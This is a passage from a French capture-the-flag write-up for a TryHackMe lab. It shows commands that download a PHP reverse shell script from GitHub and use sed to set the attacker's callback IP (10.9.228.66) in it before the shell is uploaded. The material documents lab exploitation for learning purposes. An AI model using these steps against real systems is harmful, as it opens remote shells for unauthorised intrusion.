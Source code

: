 On click sur Remind me later.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-09-07 15:08:58 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On prépare le reverse shell.    

![page8](./Task1-08.png) 
